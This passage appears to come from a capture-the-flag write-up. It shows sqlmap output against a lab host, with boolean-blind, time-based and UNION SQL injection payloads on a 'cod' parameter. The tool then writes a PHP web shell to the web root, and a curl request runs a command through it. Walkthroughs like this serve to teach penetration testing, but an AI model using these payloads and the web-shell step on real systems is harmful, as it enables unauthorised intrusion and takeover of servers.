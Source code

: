 
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:28:11 /2019-11-10/

[19:28:11] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Windows; U; Windows NT 6.0; fr; rv:1.9.2.28) Gecko/20120306 Firefox/3.6.28' from file '/usr/share/sqlmap/data/txt/user-agents.txt'
[19:28:11] [INFO] resuming back-end DBMS 'mysql' 
[19:28:11] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=1 AND 3862=3862

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cod=1 AND (SELECT 6380 FROM (SELECT(SLEEP(5)))sIAL)

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: cod=-3382 UNION ALL SELECT NULL,CONCAT(0x7176767871,0x724a4941577351594f52566f7673496e674b42744c4354476f78444c555252715565706d504c6474,0x7178717171),NULL,NULL,NULL,NULL,NULL-- AKaz
---
[19:28:11] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: PHP, Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
[19:28:11] [INFO] fingerprinting the back-end DBMS operating system
[19:28:11] [INFO] the back-end DBMS operating system is Linux
[19:28:11] [WARNING] expect junk characters inside the file as a leftover from UNION query
do you want confirmation that the local file '/usr/share/webshells/php/simple-backdoor.php' has been successfully written on the back-end DBMS file system ('/var/www/html/cmd.php')? [Y/n] Y
[19:28:18] [INFO] the remote file '/var/www/html/cmd.php' is larger (334 B) than the local file '/usr/share/webshells/php/simple-backdoor.php' (328B)
[19:28:18] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.143'

[*] ending @ 19:28:18 /2019-11-10/

root@kali:~#
{% endhighlight%}
{% highlight shell %}
root@kali:~# curl 'http://10.10.10.143/cmd.php?cmd=id'


<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
{% endhighlight %}
